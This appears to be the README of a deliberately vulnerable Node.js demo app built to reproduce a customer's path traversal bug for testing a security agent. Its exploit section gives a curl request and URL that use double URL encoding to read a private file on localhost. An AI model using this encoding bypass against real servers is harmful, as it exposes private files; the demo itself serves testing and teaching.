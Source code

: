 # Introduction
This is a vulnerable application created to replicate a vulnerability found in a customer app.

# Requirements
* node v16.14.0 (npm v8.3.1)
* @contrast/agent 4.11.0

# Installation
1. Run the following to install all app dependencies, including the Contrast agent.
    ```bash
    npm install
    ```

2. Download the `contrast_security.yaml` file and place in the root directory.

# Run
Run the following. Already has Contrast agent require statement included.
```bash
npm start
```
Application will be available at:
```
http://localhost:3000
```

# Exploit
## Option 1: Curl Request Exploit
Run the following command to exploit the app. This will access a normally private file using Path Traversal.
```bash
curl http://localhost:3000/public/%252E%252E%252Fprivate%252Fprivate.txt
```

## Option 2: Exploit in Browser
```
http://localhost:3000/public/%252E%252E%252Fprivate%252Fprivate.txt
```

# Additional Info
This exploit uses double URL Encoding to bypass a single pass URL decoder:

| Encoding           | Value              | 
| ------------------ | ------------------ | 
| Unencoded          | `../`              |
| URL Encoded        | `%2E%2E%2F`        |
| Double URL Encoded | `%252E%252E%252F`  |
